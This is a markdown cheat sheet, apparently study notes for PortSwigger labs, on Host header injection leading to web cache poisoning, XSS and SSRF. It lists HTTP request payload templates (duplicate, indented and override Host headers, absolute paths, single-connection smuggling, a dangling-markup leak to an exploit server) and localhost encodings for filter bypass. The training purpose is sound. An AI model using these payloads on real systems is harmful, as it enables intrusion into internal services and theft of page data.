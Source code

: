 # Host Header Injection - CHEATSHEET + LABS
## Key Terms

```bash
- Param Miner extension
	  -> guess: headers, params, body, everything!
```

## Walkthrough - Most Important Labs

- [Host-header-injection-via-web-cache-poisoning+xss](host-header-injection-via-web-cache-poisoning+xss.md)

- [SSRF via arbitraty host + EXTRA lab: absolute path](SSRF-via-arbitraryhost-and-absolute-path.md)

- [SSRF-via-host-validation-bypass-via-connection-state-attack](SSRF-via-host-validation-bypass-via-connection-state-attack.md) ❗


## Metodology

❗ Important: To avoid wasting time during the exam, PortSwigger warns that if an SSRF exists it will always be reachable at **localhost** on **port 6566**. 

```bash
- Discover allowed headers with Param Miner
- Try Arbitrary Host
- Only local users? 
	  -> localhost
	  -> SSRF 
- Inject duplicate host header -> blocked? -> indent.
- Intruder -> !! disable update host to match !! 
- Try absloute path in GET = ignore malicious host 
- Send 2 request in a single connection -> 1 valid + 2 with SSRF
- Try inject in port after port delimeter : delimeter  
```

## Cheat Sheet

```bash
# ARBITRARY HOST / TRY FIRST INSERT COLLABORATOR PAYLOAD 
GET /admin
Host: <VULNERABLE-WEB>:<OUR-SV>||<LOCALHOST-SSRF>
# DUPLICATE HOST / SWITCH ORDER
GET /example HTTP/1.1
Host: <VULNERABLE-WEB>
Host: <OUR-SV>||<LOCALHOST-SSRF>
# MALICIOUS INDENTED <TAB> (TRY MORE TABS) HOST + LEGIT HOST
GET /example HTTP/1.1
	Host: <OUR-SV>||<LOCALHOST-SSRF>         
Host: <VULNERABLE-WEB>
# TRY OTHER HEADERS -> X-Host, X-Forwarded-Server, X-HTTP-Host-Override ... etc
GET /example HTTP/1.1
Host: <VULNERABLE-WEB>
X-Forwarded-Host: <OUR-SV>||<LOCALHOST-SSRF>
# ABSOLUTE PATH = IGNORE HOST 
GET <ABSOLUTE_PATH>            
Host: <OUR-SV>||<LOCALHOST-SSRF>
# MULTIPLE REQUEST IN A SINGLE CONNECTION
## REQUEST 1
GET /
Host: <VALID-HOST>
Connection: keep-alive
## REQUEST 2
GET /admin
Host: <VULNERABLE-WEB>:<OUR-SV>|
Connection: keep-alive
# AFTER PORT : DELIMETER - DANGLING MARKUP
GET /
Host: <YOUR-LAB>:'<a href="//<EXPLOIT-SV>/?
```

> DIFFERENT WAYS TO WRITE LOCALHOST   
```bash
> localhost
> 127.0.0.1  
	in decimal -> 2130706433 
	in binary  -> 01111111.00000000.00000000.00000001
> 127.255.255.255 
    in decimal -> 2147483647
    in binary  -> 01111111.11111111.11111111.11111111
> 127.1
```

